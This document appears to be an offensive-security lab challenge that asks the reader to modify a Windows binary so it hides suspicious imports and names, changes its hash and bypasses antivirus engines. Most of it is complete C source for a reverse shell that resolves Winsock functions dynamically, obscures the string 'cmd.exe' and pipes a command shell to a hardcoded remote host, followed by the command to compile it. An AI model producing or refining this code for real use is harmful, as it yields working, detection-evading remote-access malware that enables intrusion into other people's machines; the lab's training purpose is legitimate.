 # Challenge

Modify the provided binary to meet the specifications below:

* No suspicious library calls present
* No leaked function or variable names
* File hash is different from the original hash
* Binary bypasses common anti-virus engines

It is also essential to change the C2Server and C2Port variables in the provided payload or this challenge will not 
properly work, and you will not receive a shell back. 

## Lab it up

* Rewrite `int WSAAPI WSAConnect` to meet the requirements of a structure definition.
  * Import the `LoadLibraryW` library the calls are stored in.
  * Obtain the pointer to the address.
  * Change all occurrences of the API call with the new pointer.
* Define all pointer addresses needed, corresponding to the structures.
* The structure definitions should be outside any function at the beginning of the code. 
* The pointer definitions should be at the top of the `RunShell` function

```text
#include <winsock2.h>
#include <windows.h>
#include <ws2tcpip.h>
#include <stdio.h>

#define DEFAULT_BUFLEN 1024


typedef int(WSAAPI* WSASTARTUP)(WORD wVersionRequested,LPWSADATA lpWSAData);
typedef SOCKET(WSAAPI* WSASOCKETA)(int af,int type,int protocol,LPWSAPROTOCOL_INFOA lpProtocolInfo,GROUP g,DWORD dwFlags);
typedef unsigned(WSAAPI* INET_ADDR)(const char *cp);
typedef u_short(WSAAPI* HTONS)(u_short hostshort);
typedef int(WSAAPI* WSACONNECT)(SOCKET s,const struct sockaddr *name,int namelen,LPWSABUF lpCallerData,LPWSABUF lpCalleeData,LPQOS lpSQOS,LPQOS lpGQOS);
typedef int(WSAAPI* CLOSESOCKET)(SOCKET s);
typedef int(WSAAPI* WSACLEANUP)(void);

void Run(char* Server, int Port) {

HMODULE hws2_32 = LoadLibraryW(L"ws2_32");
WSASTARTUP myWSAStartup = (WSASTARTUP) GetProcAddress(hws2_32, "WSAStartup");
WSASOCKETA myWSASocketA = (WSASOCKETA) GetProcAddress(hws2_32, "WSASocketA");
INET_ADDR myinet_addr = (INET_ADDR) GetProcAddress(hws2_32, "inet_addr");
HTONS myhtons = (HTONS) GetProcAddress(hws2_32, "htons");
WSACONNECT myWSAConnect = (WSACONNECT) GetProcAddress(hws2_32, "WSAConnect");
CLOSESOCKET myclosesocket = (CLOSESOCKET) GetProcAddress(hws2_32, "closesocket");
WSACLEANUP myWSACleanup = (WSACLEANUP) GetProcAddress(hws2_32, "WSACleanup");

        SOCKET s12;
        struct sockaddr_in addr;
        WSADATA version;
        myWSAStartup(MAKEWORD(2,2), &version);
        s12 = myWSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, 0, 0, 0);
        addr.sin_family = AF_INET;

        addr.sin_addr.s_addr = myinet_addr(Server);
        addr.sin_port = myhtons(Port);

        if (myWSAConnect(s12, (SOCKADDR*)&addr, sizeof(addr), 0, 0, 0, 0)==SOCKET_ERROR) {
            myclosesocket(s12);
            myWSACleanup();
        } else {


            char P1[] = "cm";
            char P2[] = "d.exe";
            char* P = strcat(P1, P2);

            STARTUPINFO sinfo;
            PROCESS_INFORMATION pinfo;
            memset(&sinfo, 0, sizeof(sinfo));
            sinfo.cb = sizeof(sinfo);
            sinfo.dwFlags = (STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW);
            sinfo.hStdInput = sinfo.hStdOutput = sinfo.hStdError = (HANDLE) s12;
            CreateProcess(NULL, P, NULL, NULL, TRUE, 0, NULL, NULL, &sinfo, &pinfo);


            WaitForSingleObject(pinfo.hProcess, INFINITE);
            CloseHandle(pinfo.hProcess);
            CloseHandle(pinfo.hThread);
        }
}

int main(int argc, char **argv) {
    if (argc == 3) {
        int port  = atoi(argv[2]);
        Run(argv[1], port);
    }
    else {
        char host[] = "10.10.50.26";
        int port = 1234;
        Run(host, port);
    }
    return 0;
}
```

Compile the binary using `mingw-gcc`.

    x86_64-w64-mingw32-gcc challenge.c -o challenge.exe -lwsock32 -lws2_32 